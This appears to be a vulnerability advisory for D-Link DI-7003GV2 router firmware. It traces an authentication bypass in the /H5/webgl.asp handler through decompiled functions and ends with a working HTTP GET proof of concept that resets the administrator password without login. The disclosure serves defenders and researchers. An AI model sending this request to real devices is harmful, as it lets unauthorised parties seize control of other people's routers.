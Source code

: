 # Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://www.dlink.com.cn/techsupport/download.ashx?file=7828

# Affected version

DI-7003GV2-24.04.18D1 R(68125)

# Vulnerability description

The D-Link DI-7003GV2 firmware version 24.04.18D1 R(68125) contains an authentication bypass vulnerability in the `/H5/webgl.asp` interface. A remote attacker can exploit this vulnerability by sending a crafted HTTP request to reset the administrator password without any authentication.

# Vulnerability details

The handling function for the `H5/webgl.asp` interface is `sub_41F4F0`.

![图 0](img/29b9dd838eadcde1f40ffe62fbe36e9b0541efcf3b7acdaf68f4e2981d5bb581.png)  

The `sub_41F4F0` function will compare the user-inputted account and password with those in nvram, and if they do not match, it will set a modification flag v2.

![图 1](img/28cfccb91782926b382a9fac0fcc309e11bfba3c61f616549b597841e3d10a28.png)  

next, `save_variables` will be called to save the configuration.

![图 2](img/faa8def8238e59043faba3e906077fd6fcbb4f4f145858baa975e50e7b99012e.png)  

When `exec_service=admin-restart`, it will enter the `jhl_httpd_reset_user` function to reset the password.

![图 3](img/38e4d6ea2ea29abf3dee8d897600d2157459be96b8baf945cf978ed01a5c5495.png)  

`jhl_httpd_reset_user` function updates nvram information based on saved global variables.

![图 4](img/b85f5475a8b5cfa97031cf4dd9f7139b0c206245bb37844d432edcbf5de76180.png)  


# POC

After sending the request packet, successfully reset the password.

```http
GET /H5/webgl.asp?tggl_port=0&remote_management=0&http_passwd=game&exec_service=admin-restart HTTP/1.1
Host: 192.168.140.240
Content-Length: 0
Cache-Control: max-age=0
Origin: http://192.168.140.240
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 Edg/135.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.140.240/login.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: keep-alive
```

![图 5](img/b39c12f1af4621d8d053455b6d226337fb6635e7a67f7be3f3827d69e66a08f1.png)  
